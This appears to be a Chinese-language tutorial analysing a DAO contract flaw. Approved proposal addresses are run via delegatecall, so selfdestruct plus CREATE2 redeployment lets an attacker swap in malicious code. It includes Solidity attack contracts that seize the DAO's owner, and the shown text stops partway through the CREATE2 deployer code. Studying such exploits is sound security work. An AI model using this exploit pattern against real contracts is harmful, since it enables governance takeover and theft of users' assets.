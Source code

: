 

**漏洞分析**



这个 DAO 合约实现了一个基本的治理机制：Owner 通过 approve 函数审核并记录提案合约地址到 Proposals 数组中，任何用户随后可通过 execute 函数执行已审核的提案。看似严密的权限控制（仅 Owner 可审核提案）结合执行检查（提案需审核且未执行），实则存在一个隐蔽的逻辑漏洞：已审核的提案地址可能在执行时指向完全不同的合约代码。攻击者可分如下三步实施攻击：



**1. 部署正常合约，获取授权**



攻击者首先部署一个包含无害 executeProposal() 函数的合约 A，通过 Owner 审核将地址加入提案列表。



**2. 自毁原合约，抢占地址**



合约 A 执行自毁操作(selfdestruct) 清空代码，随后攻击者使用 CREATE2 操作码在同一地址部署恶意合约 B（包含危险逻辑的 executeProposal()）。



**3. 触发执行，劫持控制权**



当用户调用 execute 时，合约会通过 delegatecall 执行新部署的恶意合约 B 代码。由于 delegatecall 会保留当前合约的上下文，攻击者可通过此操作篡改 DAO 合约状态（如修改 Owner）或转移资产。



下面我们结合攻击合约来看看具体的攻击流程。

#  

# **攻击合约**

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;
contract Proposal {
    event Log(string message);

    function executeProposal() external {
        emit Log("Executed code approved by DAO");
    }

    function emergencyStop() external {
        selfdestruct(payable(address(0)));
    }
}

contract Attack {
    event Log(string message);

    address public owner;

    function executeProposal() external {
        emit Log("Executed code not approved by DAO :)");
        // For example - set DAO's owner to attacker
        owner = msg.sender;
    }
}

contract DeployerDeployer {
    event Log(address addr);

    function deploy() external {
        bytes32 salt = keccak256(abi.encode(uint256(123)));
```